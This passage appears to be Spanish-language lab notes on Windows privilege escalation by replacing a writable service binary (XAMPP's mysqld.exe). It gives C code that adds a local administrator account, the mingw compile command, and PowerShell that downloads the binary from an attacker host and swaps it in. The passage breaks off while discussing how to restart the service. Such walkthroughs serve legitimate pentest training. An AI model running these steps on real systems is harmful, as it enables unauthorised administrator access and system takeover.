 ```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

Sin embargo, BUILTIN\\Users tiene control completo (F) del binario mysqld.exe y por tanto podemos reemplazar el mismo.

Podemos crear en Kali un binario que añada un usuario en el sistema y asu vez añada este usuario al grupo de administradores:

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Lo siguiente es compilarlo:

```
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

reemplazarlo:

```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

El siguiente paso consiste en reiniciar el servico para que una cuenta administrativa del sistema ejecute nuestro binario. Ocurre con frecuencia que aunque tenemos permisos para cambiar el binario, no tenemos permisos para manipular el flujo de ejecución del servicio pues esto está en manos de una cuenta con más privilegios.

```
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```

Sin embargo, todavía podemos buscar otras formas de reiniciar un servicio. Por ejemplo, si está configurado en modo "StartMode: Auto" se reiniciará cada vez que iniciemos la máquina:
